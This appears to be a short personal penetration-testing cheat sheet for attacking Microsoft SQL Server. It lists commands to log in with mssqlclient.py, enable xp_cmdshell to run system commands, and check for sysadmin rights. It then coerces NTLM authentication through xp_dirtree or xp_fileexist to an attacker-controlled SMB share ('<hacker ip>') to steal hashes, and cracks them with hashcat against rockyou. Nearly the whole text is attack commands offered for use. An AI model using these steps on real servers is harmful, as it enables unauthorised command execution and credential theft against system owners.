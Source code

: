 ```yaml
---
title: MS-SQL-SERVER
updated: 2023-10-13 08:26:44Z
created: 2023-10-13 07:16:08Z
latitude: -33.86881970
longitude: 151.20929550
altitude: 0.0000
---
```


1.  Connect to MS-SQL server:
`mssqlclient.py <DOMAIN\user>:<password>@<target IP> -windows-auth`

2. Get a shell:
`enable_xp_cmdshell`
`xp_cmdshell <commands>`

3. If user does not have permission, check who has sa permissions:
`select IS_SRVROLEMEMBER ('sysadmin')`

4. If permission not available, **steal the hashes** using **xp_dirtree** or **xp_fileexist**
Setup samba share on Kali:
`smbserver.py myshare ~/transfer/`
or
`smbserver.py -smb2support myshare ~/transfer/`

5. Run **xp_dirtree** or **xp_fileexist** to capture hashes:
`exec xp_dirtree '\\<hacker ip>\myshare\',1,1`
`exec xp_fileexist '\\<hacker ip>\myshare\',1,1`

6. Copy NTLM2 hash to **hash.txt** and crack with **Hashcat** or **John**:
`hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt`

Preferabbly run on windows bare-metal to use GPU:
`hashcat64 -m 5600 hash.txt rockyou.txt -0`
